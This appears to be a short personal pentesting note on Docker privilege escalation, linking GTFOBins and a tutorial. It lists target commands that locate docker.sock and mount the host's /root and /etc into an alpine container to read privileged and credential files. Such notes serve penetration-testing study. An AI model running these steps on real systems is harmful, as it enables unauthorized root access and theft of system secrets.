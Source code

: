 https://gtfobins.github.io/gtfobins/docker/


---
#### Docker.sock
```bash - target
find / -name "docker.sock" 2>/dev/null
```

>/run/docker.sock

---

[https://www.hackingarticles.in/docker-privilege-escalation/](https://www.hackingarticles.in/docker-privilege-escalation/)

```bash - target
id
```

![[Pasted image 20221110090716.png]]

```bash - target
docker ps --all
```

![[Pasted image 20221110090807.png]]

```bash - target
docker run -v /root:/mnt -it alpine
```

```bash - target
docker run -v /etc/:/mnt -it alpine
```

```bash - target
cd /mnt
```

```bash - target
ls
```

